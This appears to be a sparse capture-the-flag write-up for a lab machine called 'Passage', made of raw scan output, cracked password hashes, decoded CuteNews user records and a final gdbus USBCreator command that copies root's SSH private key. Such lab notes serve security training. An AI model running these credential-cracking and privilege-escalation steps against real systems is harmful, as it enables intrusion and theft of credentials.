

# Passage writeup
```bash
# Nmap 7.91 scan initiated Thu Dec 31 10:49:20 2020 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.206
Nmap scan report for 10.10.10.206
Host is up (0.098s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 31 10:49:33 2020 -- 1 IP address (1 host up) scanned in 12.54 seconds
```


https://www.exploit-db.com/exploits/48800


c:\tmp\hashcat-6.1.1>hashcat -m 1600 passage.txt rockyou.txt --show
$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/:password

/usr/bin/fail2ban-server

/var/www/html/CuteNews/skins/base/dashboard/backups.php

```
www-data@passage:/var/www/html/CuteNews/cdata/users$ cat lines 
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo2OiJlZ3JlNTUiO319
<?php die('Direct call - access denied'); ?>
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo1OiJhZG1pbiI7YTo4OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMDQ3IjtzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MzoiYWNsIjtzOjE6IjEiO3M6NToiZW1haWwiO3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjQ6InBhc3MiO3M6NjQ6IjcxNDRhOGI1MzFjMjdhNjBiNTFkODFhZTE2YmUzYTgxY2VmNzIyZTExYjQzYTI2ZmRlMGNhOTdmOWUxNDg1ZTEiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3OTg4IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzI4MTtzOjk6InNpZC1tZWllciI7fX0=
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjU6ImFkbWluIjt9fQ==
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImtpbUBleGFtcGxlLmNvbSI7czo5OiJraW0tc3dpZnQiO319
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzIzNjtzOjEwOiJwYXVsLWNvbGVzIjt9fQ==
<?php die('Direct call - access denied'); ?>
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJzaWQtbWVpZXIiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzI4MSI7czo0OiJuYW1lIjtzOjk6InNpZC1tZWllciI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToic2lkQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiU2lkIE1laWVyIjtzOjQ6InBhc3MiO3M6NjQ6IjRiZGQwYTBiYjQ3ZmM5ZjY2Y2JmMWE4OTgyZmQyZDM0NGQyYWVjMjgzZDFhZmFlYmI0NjUzZWMzOTU0ZGZmODgiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg1NjQ1IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzA0NztzOjU6ImFkbWluIjt9fQ==
<?php die('Direct call - access denied'); ?>
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6InNpZEBleGFtcGxlLmNvbSI7czo5OiJzaWQtbWVpZXIiO319
<?php die('Direct call - access denied'); ?>
YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTU5MjQ4NTU1NiI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19
<?php die('Direct call - access denied'); ?>
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJraW0tc3dpZnQiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzMwOSI7czo0OiJuYW1lIjtzOjk6ImtpbS1zd2lmdCI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToia2ltQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiS2ltIFN3aWZ0IjtzOjQ6InBhc3MiO3M6NjQ6ImY2NjlhNmY2OTFmOThhYjA1NjIzNTZjMGNkNWQ1ZTdkY2RjMjBhMDc5NDFjODZhZGNmY2U5YWYzMDg1ZmJlY2EiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3MDk2IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIzIjt9fX0=
<?php die('Direct call - access denied'); ?>
<?php die('Direct call - access denied'); ?>
<?php die('Direct call - access denied'); ?>
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo2OiJlZ3JlNTUiO2E6MTE6e3M6MjoiaWQiO3M6MTA6IjE1OTg4Mjk4MzMiO3M6NDoibmFtZSI7czo2OiJlZ3JlNTUiO3M6MzoiYWNsIjtzOjE6IjQiO3M6NToiZW1haWwiO3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo0OiJuaWNrIjtzOjY6ImVncmU1NSI7czo0OiJwYXNzIjtzOjY0OiI0ZGIxZjBiZmQ2M2JlMDU4ZDRhYjA0ZjE4ZjY1MzMxYWMxMWJiNDk0YjU3OTJjNDgwZmFmN2ZiMGM0MGZhOWNjIjtzOjQ6Im1vcmUiO3M6NjA6IllUb3lPbnR6T2pRNkluTnBkR1VpTzNNNk1Eb2lJanR6T2pVNkltRmliM1YwSWp0ek9qQTZJaUk3ZlE9PSI7czozOiJsdHMiO3M6MTA6IjE1OTg4MzQwNzkiO3M6MzoiYmFuIjtzOjE6IjAiO3M6NjoiYXZhdGFyIjtzOjI2OiJhdmF0YXJfZWdyZTU1X3Nwd3ZndWp3LnBocCI7czo2OiJlLWhpZGUiO3M6MDoiIjt9fX0=
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzMwOTtzOjk6ImtpbS1zd2lmdCI7fX0=
```

```
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo2OiJlZ3JlNTUiO319
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo1OiJhZG1pbiI7YTo4OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMDQ3IjtzOjQ6Im5hbWUiO3M6NToiYWRtaW4iO3M6MzoiYWNsIjtzOjE6IjEiO3M6NToiZW1haWwiO3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjQ6InBhc3MiO3M6NjQ6IjcxNDRhOGI1MzFjMjdhNjBiNTFkODFhZTE2YmUzYTgxY2VmNzIyZTExYjQzYTI2ZmRlMGNhOTdmOWUxNDg1ZTEiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3OTg4IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzI4MTtzOjk6InNpZC1tZWllciI7fX0=
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTc6Im5hZGF2QHBhc3NhZ2UuaHRiIjtzOjU6ImFkbWluIjt9fQ==
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6ImtpbUBleGFtcGxlLmNvbSI7czo5OiJraW0tc3dpZnQiO319
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzIzNjtzOjEwOiJwYXVsLWNvbGVzIjt9fQ==
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJzaWQtbWVpZXIiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzI4MSI7czo0OiJuYW1lIjtzOjk6InNpZC1tZWllciI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToic2lkQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiU2lkIE1laWVyIjtzOjQ6InBhc3MiO3M6NjQ6IjRiZGQwYTBiYjQ3ZmM5ZjY2Y2JmMWE4OTgyZmQyZDM0NGQyYWVjMjgzZDFhZmFlYmI0NjUzZWMzOTU0ZGZmODgiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg1NjQ1IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIyIjt9fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzA0NztzOjU6ImFkbWluIjt9fQ==
YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTU6InNpZEBleGFtcGxlLmNvbSI7czo5OiJzaWQtbWVpZXIiO319
YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTU5MjQ4NTU1NiI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo5OiJraW0tc3dpZnQiO2E6OTp7czoyOiJpZCI7czoxMDoiMTU5MjQ4MzMwOSI7czo0OiJuYW1lIjtzOjk6ImtpbS1zd2lmdCI7czozOiJhY2wiO3M6MToiMyI7czo1OiJlbWFpbCI7czoxNToia2ltQGV4YW1wbGUuY29tIjtzOjQ6Im5pY2siO3M6OToiS2ltIFN3aWZ0IjtzOjQ6InBhc3MiO3M6NjQ6ImY2NjlhNmY2OTFmOThhYjA1NjIzNTZjMGNkNWQ1ZTdkY2RjMjBhMDc5NDFjODZhZGNmY2U5YWYzMDg1ZmJlY2EiO3M6MzoibHRzIjtzOjEwOiIxNTkyNDg3MDk2IjtzOjM6ImJhbiI7czoxOiIwIjtzOjM6ImNudCI7czoxOiIzIjt9fX0=
YToxOntzOjQ6Im5hbWUiO2E6MTp7czo2OiJlZ3JlNTUiO2E6MTE6e3M6MjoiaWQiO3M6MTA6IjE1OTg4Mjk4MzMiO3M6NDoibmFtZSI7czo2OiJlZ3JlNTUiO3M6MzoiYWNsIjtzOjE6IjQiO3M6NToiZW1haWwiO3M6MTU6ImVncmU1NUB0ZXN0LmNvbSI7czo0OiJuaWNrIjtzOjY6ImVncmU1NSI7czo0OiJwYXNzIjtzOjY0OiI0ZGIxZjBiZmQ2M2JlMDU4ZDRhYjA0ZjE4ZjY1MzMxYWMxMWJiNDk0YjU3OTJjNDgwZmFmN2ZiMGM0MGZhOWNjIjtzOjQ6Im1vcmUiO3M6NjA6IllUb3lPbnR6T2pRNkluTnBkR1VpTzNNNk1Eb2lJanR6T2pVNkltRmliM1YwSWp0ek9qQTZJaUk3ZlE9PSI7czozOiJsdHMiO3M6MTA6IjE1OTg4MzQwNzkiO3M6MzoiYmFuIjtzOjE6IjAiO3M6NjoiYXZhdGFyIjtzOjI2OiJhdmF0YXJfZWdyZTU1X3Nwd3ZndWp3LnBocCI7czo2OiJlLWhpZGUiO3M6MDoiIjt9fX0=
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5MjQ4MzMwOTtzOjk6ImtpbS1zd2lmdCI7fX0=


while read p; do echo $p | base64 --decode; echo ;echo ; done <b64.txt
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}

a:1:{s:2:"id";a:1:{i:1598829833;s:6:"egre55";}}

a:1:{s:5:"email";a:1:{s:15:"egre55@test.com";s:6:"egre55";}}

a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:2:"id";a:1:{i:1592483281;s:9:"sid-meier";}}

a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}

a:1:{s:5:"email";a:1:{s:15:"kim@example.com";s:9:"kim-swift";}}

a:1:{s:2:"id";a:1:{i:1592483236;s:10:"paul-coles";}}

a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:2:"id";a:1:{i:1592483047;s:5:"admin";}}

a:1:{s:5:"email";a:1:{s:15:"sid@example.com";s:9:"sid-meier";}}

a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}

a:1:{s:2:"id";a:1:{i:1592483309;s:9:"kim-swift";}}


hashcat -m 1400 passage-hash.txt rockyou.txt --show
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1




[+] All users & groups
                                                                                                                                                              │uid=0(root) gid=0(root) groups=0(root)
                                                                                                                                                              │uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
                                                                                                                                                              │uid=1001(paul) gid=1001(paul) groups=1001(paul)
                                                                                                                                                              │uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
                                                                                                                                                              │uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
                                                                                                                                                              │uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
                                                                                                                                                              │uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
                                                                                                                                                              │uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)


.viminfo
# File marks:
'0  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
'1  1  14  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
'2  93  0  ~/.viminfo
'3  90  0  ~/.viminfo
'4  23  0  ~/.viminfo
'5  13  9  /dev/shm/test/cron/exploit.cron.sh
'6  32  0  /dev/shm/test/cron/exploit.cron.sh
'7  44  0  /dev/shm/47165.sh
'8  1  0  /dev/shm/47164.sh
'9  103  0  /dev/shm/47164.sh

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/

gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true